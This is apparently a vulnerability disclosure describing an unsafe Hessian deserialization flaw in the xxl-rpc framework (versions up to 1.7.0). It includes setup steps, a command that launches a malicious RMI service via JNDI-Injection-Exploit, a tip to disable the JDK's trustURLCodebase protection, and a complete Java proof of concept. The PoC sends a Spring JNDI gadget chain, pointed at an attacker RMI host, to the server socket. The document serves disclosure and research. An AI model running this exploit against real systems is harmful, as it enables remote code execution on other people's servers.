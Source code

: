 # XXL-RPC deserialization vulnerability

### Brief description

The xxl-rpc framework utilizes the latest version(4.0.66) of the Hessian to facilitate serialization and deserialization during remote communication processes.

Through code auditing, it is easily discovered that there is a developer-encapsulated serialization processor (currently supporting both Hessian1 and Hessian2 protocols) within the `com.xxl.rpc.core.old.serializ` package of the `xxl-rpc-core` module. During runtime, the server and client will invoke the pre-configured serialization processor for deserialization in the `com.xxl.rpc.core.remoting.net.impl.netty.codec.NettyDecode#decode` method. We found that this method deserialize the inputs without validating, which results in vulnerability.

### Affected versions

```
<= v1.7.0
```

The following uses the latest v1.7.0 as an example to illustrate the attack.

### How to reproduce

Utilize the official source code of xxl-rpc and the `xxl-rpc-samples/xxl-rpc-sample-springboot` provided in the usage examples.

### 1. Starting xxl-rpc server

a. Create necessary directories and files and modify configuration files

![image-20230507103420819](asset/image-20230507103420819.png)

Modify the "value" in the second red box to the absolute path of the log file for the newly created client on your local machine.

![image-20230507103510608](asset/image-20230507103510608.png)

As above, modify the value in the second red box to the absolute path of the registry data for the newly created local registry on your machine.

And the other configurations needed to edit are as below:

![image-20230507103647266](asset/image-20230507103647266.png)

![image-20230507103703722](asset/image-20230507103703722.png)

Make sure all of these file are created after editing.



b. Configure the MySQL service locally and import the official database (optional. if an error occurs, maybe you should do this)

I am using Parallels virtual machine locally and have configured [PHPStudy](https://www.xp.cn/) inside it. You can find MySQL is integrated in it (You can also install an MySQL on your local machine).

![image-20230507105205450](asset/image-20230507105205450.png)

find tables_xxl_rpc.sql:

![image-20230507105219694](asset/image-20230507105219694.png)

put it on a suitable location and then login to MySQL using the command line, then use the "source" command to import the database:

![image-20230507104306737](asset/image-20230507104306737.png)

After that, you should modify the configuration information for the database.

![image-20230507104341653](asset/image-20230507104341653.png)



(2) Start Zookeeper and xxl-rpc-sample-springboot-server

For this test, jdk8u92 is chosen. If the jdk version is higher, there may be restrictions on JNDI injection. Of course, there are also ways to bypass this restriction for higher versions. However, to facilitate the reproduction and testing of this vulnerability, for higher versions of jdk, a statement can be added before starting the server of the test:`System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");`

you need to download the [zookeeper](https://zookeeper.apache.org/releases.html) and start it by running ``

![image-20230507105718737](asset/image-20230507105718737.png)

the opened server is as below (the 405 error can be ingored): 

![image-20230507104549725](asset/image-20230507104549725.png)



### 2 Attacker environment setup and launch the attack

(1) Run malicious RMI service
Execute the command `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open -a /System/Applications/Calculator.app` to run the malicious RMI service. If your OS is Windows, you should modify the shell command to `cmd /c calc.exe`. Successful execution of the command produces the following effect:

![image-20230507105005771](asset/image-20230507105005771.png)

(2) Unzip xxl-sendEvil.zip and open it with IDEA (or other IDE).
Modify the RUL in PoC2.java to the URL corresponding to the malicious RMI service started in the previous step.



Running PoC2.java will demonstrate the attack effect.

### POC

```java
package com.xxl.rpc.core.poc;

import com.xxl.rpc.serialize.HessianSerializer;
import com.xxl.rpc.serialize.Serializer;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.beans.factory.BeanFactory;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.io.OutputStream;
import java.net.Socket;

public class PoC2 {

    public static void main(String[] args) throws Exception {

      // Remember to modify the RMI URL
        BeanFactory bf =  SpringUtil.makeJNDITrigger("rmi://192.168.31.5:1099/vorbxa");
        DefaultBeanFactoryPointcutAdvisor pcadv = new DefaultBeanFactoryPointcutAdvisor();
        pcadv.setBeanFactory(bf);
        pcadv.setAdviceBeanName("rmi://192.168.31.5:1099/vorbxa");

        DefaultBeanFactoryPointcutAdvisor pcadv2 = new DefaultBeanFactoryPointcutAdvisor();
        pcadv2.setAdviceBeanName("rmi://192.168.31.5:1099/vorbxa");
        Object obj = JDKUtil.makeMap(pcadv2, pcadv);

        HessianSerializer serializer = new HessianSerializer();
        byte[] bytes = serializer.serialize(obj);
        // serializer.deserialize(bytes, null);

        int length = bytes.length;
        byte[] newArray = new byte[length + 4];
        newArray[0] = (byte) ((length >> 24) & 0xFF);
        newArray[1] = (byte) ((length >> 16) & 0xFF);
        newArray[2] = (byte) ((length >> 8) & 0xFF);
        newArray[3] = (byte) (length & 0xFF);
        System.arraycopy(bytes, 0, newArray, 4, length);
        Socket socket = new Socket("127.0.0.1", 7080);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(newArray);
        outputStream.flush();
        outputStream.close();

    }

}
```

### **Vulnerability Impact**

This attack can cause remote arbitrary code execution

### **Display of attack results(Remote Code Execute)**

![image-20230507105047640](asset/image-20230507105047640.png)

![image-20230507105101166](asset/image-20230507105101166.png)